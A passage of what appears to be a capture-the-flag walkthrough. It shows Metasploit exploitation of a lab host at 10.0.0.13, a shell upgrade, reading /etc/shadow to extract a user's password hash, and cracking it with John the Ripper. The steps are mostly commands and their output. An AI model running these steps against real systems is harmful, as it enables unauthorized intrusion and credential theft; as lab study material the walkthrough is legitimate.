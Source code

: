 ### Phase 2: Exploit Configuration and Execution

```bash
# 5. Configure exploit parameters
set rhosts 10.0.0.13
set password admin
set username admin
set targeturi /secret

# 6. Execute the exploit
run

# Result: Meterpreter session established
```

### Phase 3: Shell Access and Enumeration

```bash
# 7. Access system shell from Meterpreter
shell

# 8. Upgrade to interactive shell
which python
python -c 'import pty;pty.spawn("/bin/bash")'

# 9. Basic system enumeration
cd /tmp
whoami
id
uname -a
```

### Phase 4: Credential Harvesting

```bash
# 10. Extract password hashes
cat /etc/shadow

# 11. Target specific user hash
cat /etc/shadow | grep marlinspike

# Result: marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::
```

### Phase 5: Password Cracking (New Terminal)

```bash
# 12. Create hash file for cracking
echo 'marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::' > hashed_password.txt

# 13. Crack password using John the Ripper
john --single hashed_password.txt

# Result: Password cracked - "marlinspike"
```
